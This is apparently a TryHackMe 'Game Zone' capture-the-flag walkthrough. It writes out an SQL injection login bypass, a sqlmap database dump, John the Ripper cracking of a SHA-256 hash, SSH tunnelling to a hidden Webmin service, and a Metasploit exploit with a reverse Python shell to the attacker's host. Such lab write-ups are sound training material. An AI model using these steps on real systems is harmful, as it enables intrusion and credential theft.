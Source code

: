 # Game Zone

**Room Link:** [https://tryhackme.com/room/gamezone](https://tryhackme.com/room/gamezone)



### **Obtain access via SQLi**

Username field was vulnerable to SQLi,

```
Username: ' or 1=1 -- -
Password: anything
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

### **Using SQLMap**

I setup burp to intercept requests and then tried searching for something on the portal page

<figure><img src="../../.gitbook/assets/image (10) (2) (1).png" alt=""><figcaption></figcaption></figure>

Saved the request into a file called request.txt, if you highlight everything and right click you can copy to file

<figure><img src="../../.gitbook/assets/image (4) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (3) (2).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r request.txt --dbms=mysql --dump
```

<figure><img src="../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

**In the users table, what is the hashed password?**

ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

**What was the username associated with the hashed password?**

agent47

**What was the other table name?**

post

<figure><img src="../../.gitbook/assets/image (26) (1).png" alt=""><figcaption></figcaption></figure>



### **Cracking a password with JohnTheRipper**

Used the following site to idenfitfy what the hash type was. It identified that it is SHA2-256.

**Hash Analyzer:** [https://www.tunnelsup.com/hash-analyzer/](https://www.tunnelsup.com/hash-analyzer/)

<figure><img src="../../.gitbook/assets/image (27) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**What is the de-hashed password?**

john was able to crack the hash ehich gave us the password videogamer124.

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-SHA256
```

<figure><img src="../../.gitbook/assets/image (14) (2) (2).png" alt=""><figcaption></figcaption></figure>

```
ssh agent47@10.10.74.145
Password: videogamer124
```

\
**Now you have a password and username. Try SSH'ing onto the machine. What is the user flag?**

<figure><img src="../../.gitbook/assets/image (30) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Exposing services with reverse SSH tunnels**

**How many TCP sockets are running?**

```
ss -tulpn
```

<figure><img src="../../.gitbook/assets/image (8) (1) (2).png" alt=""><figcaption></figcaption></figure>

**What is the name of the exposed CMS?**

```
ssh -L 10000:localhost:10000 agent47@10.10.74.145
Password: videogamer124
```

<figure><img src="../../.gitbook/assets/image (24) (2) (1).png" alt=""><figcaption></figcaption></figure>

**What is the CMS version?**

I was able to login with the previous credentials found and find the CMS version.

```
Username: agent47
Password: videogamer124
```

<figure><img src="../../.gitbook/assets/image (28) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation with Metasploit**



<figure><img src="../../.gitbook/assets/image (16) (3) (1).png" alt=""><figcaption></figcaption></figure>

```
msfconsole
search 1.580
use 1
set USERNAME agent47
set PASSWORD videogamer124
set RHOSTS 127.0.0.1
set ssl false 

set payload cmd/unix/reverse_python
set lhost 10.10.108.150
set lport 443
exploit
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>
